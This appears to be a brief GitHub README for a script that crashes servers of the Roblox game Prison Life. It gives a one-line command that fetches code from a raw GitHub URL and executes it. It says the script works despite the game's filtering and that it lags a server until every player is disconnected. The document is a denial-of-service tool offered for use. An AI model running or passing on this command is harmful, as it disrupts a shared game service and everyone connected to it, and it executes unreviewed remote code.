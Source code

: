 # prison-life-crasher
script to crash prison life, use this to execute:

```loadstring(game:HttpGet("https://raw.githubusercontent.com/sauce-boss01/prison-life-crasher/main/crasher", true))()```

also yes, this is indeed FE, i tested it in different devices and both crash.

this script lags the server until it crashes, so when you get disconnected everyone else also does
